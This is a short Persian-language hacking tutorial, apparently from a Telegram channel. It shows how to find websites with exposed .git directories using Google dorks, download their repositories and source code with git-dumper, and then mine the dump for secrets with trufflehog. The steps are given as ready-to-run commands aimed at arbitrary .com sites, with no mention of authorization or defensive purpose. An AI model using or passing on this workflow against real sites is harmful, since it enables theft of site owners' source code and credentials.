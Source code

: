یکی از کارهایی که میتونید  برای پیدا کردن فایل git. استفاده از این دورک
site:*.com intext:"Index Of .git"
site:*.com inurl:"Index Of .git"

که میتوانید ببنید ایا این مسیر از سایت باز هست یا نه 

حالا پا رو کمی فراتر بزاریم 
میتونیم با این git-dumper کل فایل git. رو دانلود کنیم حتی میتونید کل سورس کد سایت رو هم دانلود کنید نحوه نصب:
pip install git-dumper

که برای dump کردن فایل های git.  باید این دستور رو بزنید 
git-dumper https://site.com/.git dump
git-dumper == دستور
https://site.com/.git/ == اسم سایت 
dump == اسم یه پوشه دلخواه

حالا همه فایل های git.  رو دانلود کردید و ممکنه سورس کد رو هم dump کرده باشید

حالا باید این ابزار رو نصب کنید:
git clone https://github.com/trufflesecurity/trufflehog.git
cd trufflehog; go install
 
بعد از اون میتونید با استفاده trufflehog بچرخید و دیتاهای حساس رو از فایل هایی که dump کردید رو به دست بیارید 
trufflehog filesystem dump

📌@hackhaven_channel


---

